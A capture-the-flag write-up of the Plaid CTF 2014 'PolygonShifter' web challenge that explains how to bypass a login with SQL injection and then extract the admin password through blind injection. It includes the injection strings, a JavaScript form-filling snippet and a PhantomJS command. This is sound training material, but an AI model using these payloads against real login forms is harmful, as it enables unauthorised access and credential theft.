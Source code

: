 # Plaid CTF 2014: PolygonShifter

**Category:** Web
**Points:** 100
**Description:**

> The Plague has purchased the newest invention, _Polygon Shifter_ to protect his website. This cutting edge technology is made available by Polygon Security, and they have a demo page on their [website](http://54.204.80.192/). They claim bots can no longer attack the website protected by the Polygon Shifter. Do we need to manually bruteforce the credentials?

## Write-up

Looking into the source code, we learn that there is a ‘secret’ admin account:

```html
<div class="row">
<div class="medium-10 small-centered columns">
    <h3>To demonstrate our technology, we have a form that is protected with our solution. Humans shall pass, but bots will FAIL.</h3>
    <h3>Test account is test / test</h3>
    <!--<h3>For admin interface, admin / ???????</h3>-->
</div>
</div>
```

Let’s try to log in to this admin account. We don’t have the credentials, so we’ll try SQL injection instead:

* Username: `admin' OR 'a'='a`
* Password: `random`

Great, we’re logged in! We are welcomed with the following message:

> Hello, admin!! My password is the flag!

It seems like we need to find the password using SQL injection. Let’s peek into the source code some more:

```html
<h4 class="product-header">A friendly login form; not so friendly for bots!</h4>
<div class="medium-11 small-centered columns">
    <form action="/P0zxeNVpdjH6myRHaWVS" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="6lyNestBnznos6FxGtGD" name="dVURHUzXGy69u5thdZY0">
        <label for="bFixmywlQhbkX1uC1oI2" style="text-align:left;">Password</label>
        <input type="password" id="bFixmywlQhbkX1uC1oI2" name="SU8IPPqzwozVlQzuaWSA">
        <input class="primary large" type="submit" value="Login">
    </form>
</div>
```

Okay, we cannot use the `id`s or `name`s of these fields to automate the process since they change for every request. No problem — we don’t really need those anyway. The source code doesn’t seem to have any more input fields, so we can just input our username in whatever’s the first input field on the page, and the password into the second field.

```js
var arr = document.getElementsByTagName('input');
arr[0].value = 'admin';
arr[1].value = "' or (password LIKE '%a%') and 1='1";
```

If we manage to successfully log in as admin using these values, we know that our query succeeded and that there’s an `a` in the password. Using a similar technique, we can slowly figure out the password character by character (cfr. [the WhatsCat challenge write-up](https://github.com/ctfs/write-ups/tree/master/plaid-ctf-2014/whatscat)).

We wrote a [PhantomJS](http://phantomjs.org/) script for this named [`client.js`](client.js). Run it as follows:

```bash
$ phantomjs client.js "(password like 'a%')"
```

After some testing, we find that the flag is `n0b0t5\_C4n\_bYpa5s\_p0lYm0rph1Sm`.

## Other write-ups and resources

* <http://balidani.blogspot.com/2014/04/plaidctf-2014-polygonshifter-writeup.html>
* <https://ucs.fbi.h-da.de/writeup-plaidctf-2014-polygonshifter/>
* <https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-100-blind-sql-injection>
* <http://eindbazen.net/2014/04/plaidctf-2014-polygonshifter-100/>
* <http://sigint.ru/writeups/2014/04/13/plaidctf-2014-writeups/#web-100---polygonshifter>
